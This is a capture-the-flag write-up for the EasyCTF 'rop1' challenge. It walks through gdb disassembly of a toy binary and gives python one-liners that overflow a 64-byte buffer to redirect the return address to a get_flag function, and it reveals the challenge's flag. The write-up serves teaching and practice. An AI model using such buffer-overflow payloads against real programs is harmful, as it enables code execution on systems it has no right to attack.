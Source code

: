 # rop1

EasyCTF - Disclaimer(("This writeup is from KosBeg's https://github.com/KosBeg/ctf-writeups/blob/master/EasyCTF_IV/rop1/README.md"))

<Filelink - https://github.com/KosBeg/ctf-writeups/blob/master/EasyCTF_IV/rop1/rop1>

"Go to /problems/rop1 on the shell server and tell me whats in flag.txt.
File"

Found an .ELF file :
```
blaccmail@localhost:~/Downloads$ ./rop1
aaaaaaaaaaaaaaaa
You said: aaaaaaaaaaaaaaaa
blaccmail@localhost:~/Downloads$ 
```

running wont do any help, so i tried to disassemble it:
```
blaccmail@localhost:~/Downloads$ gdb rop1
(gdb) set disassembly-flavor intel
(gdb) b main
Breakpoint 1 at 0x40068d
(gdb) run
Starting program: /home/blaccmail/Downloads/rop1 

Breakpoint 1, 0x000000000040068d in main ()
(gdb) 
```
first i need to disass the main:
```
(gdb) disass main
Dump of assembler code for function main:
   0x0000000000400689 <+0>:	push   rbp
   0x000000000040068a <+1>:	mov    rbp,rsp
=> 0x000000000040068d <+4>:	sub    rsp,0x20
   0x0000000000400691 <+8>:	mov    DWORD PTR [rbp-0x14],edi
   0x0000000000400694 <+11>:	mov    QWORD PTR [rbp-0x20],rsi
   0x0000000000400698 <+15>:	call   0x400530 <getegid@plt>
   0x000000000040069d <+20>:	mov    DWORD PTR [rbp-0x4],eax
   0x00000000004006a0 <+23>:	mov    edx,DWORD PTR [rbp-0x4]
   0x00000000004006a3 <+26>:	mov    ecx,DWORD PTR [rbp-0x4]
   0x00000000004006a6 <+29>:	mov    eax,DWORD PTR [rbp-0x4]
   0x00000000004006a9 <+32>:	mov    esi,ecx
   0x00000000004006ab <+34>:	mov    edi,eax
   0x00000000004006ad <+36>:	call   0x4004e0 <setresgid@plt>
   0x00000000004006b2 <+41>:	mov    eax,0x0
   0x00000000004006b7 <+46>:	call   0x400657 <get_input>
   0x00000000004006bc <+51>:	mov    eax,0x0
   0x00000000004006c1 <+56>:	leave  
   0x00000000004006c2 <+57>:	ret    
End of assembler dump.
(gdb) 
```
As we can see that the program is using return instruction (and the chalange title is rop(return oriented programming)) i surmise that we need to manipulate the return instruction to call a function for printing the flag. We need to see the list of functions in this program first.

```
--------------------
(gdb) info functions
--------------------
All defined functions:

File ../bits/stdlib-bsearch.h:
void *__GI_bsearch(const void *, const void *, size_t, size_t, __compar_fn_t);

File ../csu/init-first.c:
void __libc_init_first(int, char **, char **);
void _dl_start(void);
void _init(int, char **, char **);

File ../csu/libc-start.c:
int __libc_start_main(int (*)(int, char **, char **), int, char **, int (*)(int, char **, 
    char **), void (*)(void), void (*)(void), void *);
......

#press enter until u get

Non-debugging symbols:
0x00000000004004b0  _init
0x00000000004004e0  setresgid@plt
0x00000000004004f0  system@plt
0x0000000000400500  printf@plt
0x0000000000400510  __libc_start_main@plt
0x0000000000400520  gets@plt
0x0000000000400530  getegid@plt
0x0000000000400550  _start
0x0000000000400580  deregister_tm_clones
0x00000000004005c0  register_tm_clones
0x0000000000400600  __do_global_dtors_aux
---Type <return> to continue, or q <return> to quit---
0x0000000000400620  frame_dummy
0x0000000000400646  get_flag    <-----Holy Grail
0x0000000000400657  get_input
0x0000000000400689  main
0x00000000004006d0  __libc_csu_init
0x0000000000400740  __libc_csu_fini
0x0000000000400744  _fini
```

Okey! so we found a very suspicious function so lets check it out:
```
(gdb) disass get_flag
Dump of assembler code for function get_flag:
   0x0000000000400646 <+0>:	push   rbp
   0x0000000000400647 <+1>:	mov    rbp,rsp
   0x000000000040064a <+4>:	mov    edi,0x400754  <----- this one tells to print the flag
   0x000000000040064f <+9>:	call   0x4004f0 <system@plt>
   0x0000000000400654 <+14>:	nop
   0x0000000000400655 <+15>:	pop    rbp
   0x0000000000400656 <+16>:	ret    
End of assembler dump.
(gdb) 
```
Now we need to manipulate the return address to call the function above. To do that, we start from overflowing the input variable, rbp register, so we can get to the return instruction to input our exploit:

```
------------------------------------------------------------------------------------
python -c "print 'a'*(64) + '\x00\x00\x00\x00\x00\x00\x00\x00\x46\x06\x40'" | ./rop1
------------------------------------------------------------------------------------
- 8x \x00 -> to overflow register

OR

------------------------------------------------------------------------------------
python -c "print 'a'*(64+8) + '\x46\x06\x40'" | ./rop1
------------------------------------------------------------------------------------
- 64 -> overflow input var
- 8 -> overflow register
- \x46\x06\x40 -> get_flag function start address
```
The flag is found :
```
blaccmail@localhost:~/Downloads$ python -c "print 'a'*(64) + '\x00\x00\x00\x00\x00\x00\x00\x00\x46\x06\x40'" | ./rop1
You said: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
/bin/cat: flag.txt: No such file or directory
Segmentation fault
```
# Flag : easyctf{r0ps_and_h0ps}
